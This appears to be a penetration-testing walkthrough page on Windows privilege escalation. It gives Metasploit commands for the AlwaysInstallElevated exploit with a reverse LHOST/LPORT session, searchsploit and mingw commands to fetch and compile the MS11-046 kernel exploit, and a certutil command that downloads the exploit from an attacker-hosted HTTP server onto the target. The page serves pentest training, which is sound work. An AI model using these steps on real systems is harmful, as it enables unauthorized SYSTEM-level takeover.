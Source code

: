 ### **EXPLOITING WITH METASPLOIT**

1.  We discovered that the target  potentially vulnerable to the following kernel vulnerabilities:  
    
    ![](../../../img/Windows-Environment/15.png)

    **NOTE:** `exploit/windows/local/always_install_elevated` Enables privilege escalation by exploiting the AlwaysInstallElevated policy setting on Windows systems.
    
2.  For this exploit, we need to set the LHOST, LPORT, and SESSION fields. LPORT should be different from the port used in the initial exploit to get the Meterpreter session (which was 1338 in this case).
    
    ```
    use exploit/windows/local/always_install_elevated
    set SESSION 1
    set LHOST [IP-ADRESS]
    set LPORT [PORT]
    run
    ```
    
    ![](../../../img/Windows-Environment/16.png)
    
3.  Now, run the exploit, which should provide us with a SYSTEM shell.  
    
    ![](../../../img/Windows-Environment/17.png)
    

### **EXPLOITING WITH WINDOWS EXPLOIT SUGGESTER**

1.  Using Windows Exploit Suggester, we discovered that the target is potentially vulnerable to several kernel vulnerabilities.  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/18.png)
    
2.  We can download the exploit using searchsploit and compile it.
    
    ```
    searchsploit 40564
    searchsploit -m windows_x86/local/40564.c
    x86_64-w64-mingw32-gcc 40564.c -o ms11-046.exe -lws2_32
    ```
    
    ![](../../../img/Windows-Environment/19.png)
    
3.  Alternatively, we can search for a pre-compiled version of the exploit.  
    
    ![](../../../img/Windows-Environment/20.png)

    **NOTE:** Be cautious of executable files as they may contain malicious code or backdoors. Always download from trusted sources.
    
4.  MS11-046 pre-compiled exploit  
    
    ![](../../../img/Windows-Environment/21.png)
    
5.  To download Exploit Click on the raw download link to obtain the executable:  
    
    ![](../../../img/Windows-Environment/22.png)
    
6.  Transfer exploit to the target machine (see File Transfer section for details).  
    `python3 -m http.server 8000`  
    
    ![](../../../img/Windows-Environment/23.png)
    
7.  After executing the exploit, ensure the system remains stable and the privilege escalation is successful without causing crashes or other issues.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/ms11-046.exe ms11-046.exe`  
    
    ![](../../../img/Windows-Environment/24.png)